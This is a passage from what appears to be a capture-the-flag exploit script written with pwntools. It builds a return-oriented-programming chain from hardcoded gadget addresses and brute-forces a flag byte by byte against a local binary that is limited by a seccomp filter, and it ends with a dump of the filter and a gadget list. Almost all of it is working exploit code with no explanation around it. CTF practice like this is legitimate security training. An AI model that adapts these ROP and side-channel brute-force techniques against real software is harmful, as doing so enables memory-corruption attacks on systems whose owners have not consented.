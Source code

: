 ```python

	# set rbx sero
	payload += p64(0x403072) #: pop rbx ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(0)
	payload += p64(0x0000000000401002) # RET
	payload += p64(0)*2
	payload += p64(0x00000000004011be)

	'''
	.text:00000000004011BE                 mov     bl, [rsi+rax]
	.text:00000000004011C1                 mov     rdi, rbx
	.text:00000000004011C4                 push    r14
	.text:00000000004011C6                 retn
	'''
	payload += p64(0x403beb) # : mov qword ptr [rdi + rdx - 0x27], rax ; mov rax, rdi ; ret

	payload += p64(0x0000000000401734) # : pop rdi ; pop rbp ; ret
	payload += p64(bss+0x1000-0x200)   # tmp
	payload += p64(0)
	payload += p64(0x0000000000401170) # read in bss

	sl(payload)
	p.recv(timeout=1)

# while True:
if __name__ == '__main__':
	flag = ""
	for index in range(0x30):
		for offset in range(0x20,0x7f):
			try:
				p = process(binary)
				pwn(p,index,offset)
				flag += chr(offset)
				break
				# sh()
			except:
				print("[+] testing %c flag => %s"%(offset,flag))
				p.close()




'''
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x25 0x03 0x00 0x40000000  if (A > 0x40000000) goto 0005
 0002: 0x15 0x03 0x00 0x00000005  if (A == fstat) goto 0006
 0003: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0006
 0004: 0x15 0x01 0x00 0x00000025  if (A == alarm) goto 0006
 0005: 0x06 0x00 0x00 0x00000000  return KILL
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW

0x000000000040288d : pop r12 ; pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
0x000000000040172f : pop r12 ; pop r14 ; pop r15 ; pop rbp ; ret
0x000000000040288f : pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000401731 : pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000401733 : pop r15 ; pop rbp ; ret
0x0000000000401001 : pop rax ; ret
0x0000000000402890 : pop rbp ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000401102 : pop rbp ; ret
0x000000000040172e : pop rbx ; pop r12 ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000403072 : pop rbx ; pop r14 ; pop r15 ; pop rbp ; ret
```